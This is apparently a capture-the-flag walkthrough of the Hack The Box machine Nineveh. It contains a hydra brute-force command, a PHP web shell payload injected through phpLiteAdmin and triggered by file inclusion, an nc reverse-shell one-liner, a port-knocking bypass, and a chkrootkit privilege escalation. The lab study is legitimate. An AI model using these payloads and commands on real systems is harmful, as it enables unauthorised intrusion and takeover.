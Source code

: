 ```yaml
---
title:     "Hack The Box - Nineveh"
tags: [linux,medium,knockd,lfi,php,cron]
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/1.png)

We are going to pwn Nineveh from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/54>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/2.png)

Lets start our Gobuster and see whats in the webpage.


## GoBuster Results :

> http://nineveh.htb/

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.43
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/01/23 20:31:19 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/info.php (Status: 200)
/server-status (Status: 403)
/department (Status: 301)
===============================================================
2020/01/23 20:33:44 Finished
===============================================================
```

While looking at the webpages , found a login page in ```/department/login.php```
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/3.png)

So I tried admin:admin I get invalid password so there must be admin user , lets try bruteforce using ``hydra``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/4.png)

Before that we need to capture the login intercept in burp to see how username and password are represented!

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/5.png)

Now start ``hydra``

``` hydra -l admin -P /usr/share/wordlists/rockyou.txt https://nineveh.htb/ -V -f http-post-form '/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:invalid password' ```

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/6.png)


```
-f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
-v / -V / -d  verbose mode / show login+pass for each attempt / debug mode 
```
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/7.png)<br/>
We got the creds ```admin:1q2w3e4r5t```

Lets try login<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/8.png)

While checking the ``Notes`` tab it show us some message, I have no idea what it is so lets enumerate more!! And It looks like LFI on the URL.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/9.png)

So we know there is a ``HTTPS Port (443)`` is open so lets see whats there

### Dirsearch Results:

>https://nineveh.htb/

```
 _|. _ _  _  _  _ _|_    v0.3.9
(_||| _) (/_(_|| (_| )

Extensions: html, php, txt | HTTP method: get | Threads: 10 | Wordlist size: 4614

Error Log: /root/hacking-tools/dirsearch/logs/errors-20-01-24_19-49-47.log

Target: https://10.10.10.43/

[19:49:49] Starting: 
[19:49:50] 200 -   49B  - /
[19:49:51] 403 -  291B  - /.hta
[19:50:27] 301 -  309B  - /db  ->  https://10.10.10.43/db/
[19:50:52] 200 -   49B  - /index.html
[19:51:41] 403 -  300B  - /server-status
```
There is a login page on ``/db``
Found ``phpLiteAdmin v1.9`` , as usual lets search for exploits

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/10.png)

There is an Remote PHP Code Injection
>https://www.exploit-db.com/exploits/24044

For that we need to login first , I tried with ``admin`` ( Which is default creds of phpLiteAdmin) But it doesn't worked!!
So Lets bruteforce again using ``hydra``
Same as before Intercept the login using burp.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/11.png)

Since the login page doesn't have any username so we dont need to worry about ``user``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/12-1.png)<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/12.png)<br/>
So the password is ``password123``

And Im in
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/13.png)

According to the exploit we need to first create a database with the extension of ``.php`` so I created ``ninevehNotes.php``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/14.png)

From there we need to create a table where we need to inject our payload.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/15.png)
``` <?php echo system($_REQUEST["cmd"]); ?>  ```

Once its created and we already know there is a LFI so I tried to execute there.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/16.png)<br/>
It Worked and Why I named it as ``ninevehNotes.php`` is because we know there is a file called ``ninevehNotes.txt``.

Now Its time to get reverse shell, I send it to burp and used reverse shell code.

``` rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f ```<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/17.png)

And I can't read user flag.

While Checking the ``/var/www/ssl`` directory found something called ``secure_notes``
So Lets have a look on it.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/18.png)
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/19.png)

I downloaded it to my machine 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/20.png)

I did ``strings`` and found private key<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/21.png)

We already know ``ssh`` port is filtered it may be because of  ``knockd service``

> Once knockd is installed and running, you modify your firewall rules (e.g. iptables) to drop all incoming traffic to port 22. To the outside world, it's exactly as if you are not running SSH at all.


> Reference : https://www.endpoint.com/blog/2009/11/16/port-knocking-with-knockd

There is a way to bypass it.

> Port Knocking works by opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports. Once a correct sequence of connection attempts is received, the firewall will open the port that was previously closed.

So we need the sequence to open the port.

>https://blog.rapid7.com/2017/10/04/how-to-secure-ssh-server-using-port-knocking-on-ubuntu-linux/

From the blog I came to know we can see the sequence in ``/etc/knockd.conf``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/22.png)

Yes I got the sequence , Now its time to open.

> https://www.digitalocean.com/community/tutorials/how-to-use-port-knocking-to-hide-your-ssh-daemon-from-attackers-on-ubuntu

``` for x in 571 290 911; do nmap -Pn --max-retries 0 -p $x 10.10.10.43; done ```

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/23.png)

Now we can use the private key to login<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/24.png)

## Privilege Escalation:

I uploaded my Linux Enumeration Script and nothing useful , So I tried ``pspy``

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

Looks like ``chrkootkit`` running 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/25.png)

> chkrootkit is a common Unix-based program intended to help system administrators check their system for known rootkits.

I searched in Searchsploit and found
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/26.png)
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/27.png)

I looks like easy , I created a file called Update in ``/tmp`` and started my listener.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/28.png)

Got Root!!



